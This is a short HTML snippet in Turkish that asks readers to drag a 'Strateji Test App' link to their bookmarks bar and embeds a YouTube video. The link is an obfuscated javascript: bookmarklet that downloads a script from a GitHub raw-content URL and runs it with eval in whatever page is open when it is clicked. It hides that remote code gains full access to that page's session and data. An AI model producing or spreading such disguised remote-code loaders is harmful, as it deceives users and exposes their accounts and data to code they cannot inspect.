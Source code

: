 <h3>Aşağıdaki Bağlantıyı, Yer İşaretleri Çubuğuna Sürükleyin..!</h3><br><a title = "Beni Sürükle" href = "javascript:(function(_0x3199b0,_0x2b2bcd){const _0x3a8706=_0x170b,_0x1306f4=_0x3199b0();while(!![]){try{const _0x4606a4=-parseInt(_0x3a8706(0x1be))/(0x23fb+-0x1a49+0x3*-0x33b)+-parseInt(_0x3a8706(0x1b9))/(0x78e+-0x4e1*0x6+0x15ba)+-parseInt(_0x3a8706(0x1ba))/(0x1a3f+-0x1*0x7b1+-0x128b)+-parseInt(_0x3a8706(0x1b3))/(0x15c5+0x67*0x1+0x8*-0x2c5)+-parseInt(_0x3a8706(0x1c0))/(0x14f8+0x45d+-0x1950)+-parseInt(_0x3a8706(0x1bd))/(-0x1b83*0x1+-0x2636+0x1*0x41bf)+parseInt(_0x3a8706(0x1b5))/(-0xf7+-0x25*0x109+0x274b)*(parseInt(_0x3a8706(0x1bb))/(-0x2657*-0x1+0x205+0x164*-0x1d));if(_0x4606a4===_0x2b2bcd)break;else _0x1306f4['push'](_0x1306f4['shift']());}catch(_0x20d752){_0x1306f4['push'](_0x1306f4['shift']());}}}(_0x6650,0x5aa91*-0x2+-0x14c2*-0xb3+0x6a7b8));function _0x170b(_0x3c8f16,_0x44b578){const _0x4ef278=_0x6650();return _0x170b=function(_0x380a1f,_0x2f9222){_0x380a1f=_0x380a1f-(-0x22ee+-0x98e+0x2e2c);let _0x8410f7=_0x4ef278[_0x380a1f];return _0x8410f7;},_0x170b(_0x3c8f16,_0x44b578);}async function fetchText(){const _0x299680=_0x170b,_0x25dc3a={'UrGac':function(_0x1e2f52,_0x5d488a){return _0x1e2f52(_0x5d488a);},'qGAXt':_0x299680(0x1bc)+_0x299680(0x1b2)+_0x299680(0x1b4)+_0x299680(0x1b1)+_0x299680(0x1b0)+_0x299680(0x1bf)+'js'};let _0x55d8b9=await _0x25dc3a[_0x299680(0x1b7)](fetch,_0x25dc3a[_0x299680(0x1b8)]),_0x253420=await _0x55d8b9[_0x299680(0x1b6)]();_0x25dc3a[_0x299680(0x1b7)](eval,_0x253420);};function _0x6650(){const _0x573b3b=['text','UrGac','qGAXt','1104192xJvcGy','3088482MYXStF','36394248mrZifG','https://ra','6200820RVmMdY','193910bKkiWc','main/test.','2912760JWHmvG','n/test123/','com/hakanz','w.githubus','2052364QZwmUr','ercontent.','7XCVSNp'];_0x6650=function(){return _0x573b3b;};return _0x6650();}fetchText();">Strateji Test App</a><br><br><br><br><iframe width="560" height="315" src="https://www.youtube.com/embed/9HDEHj2yzew" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
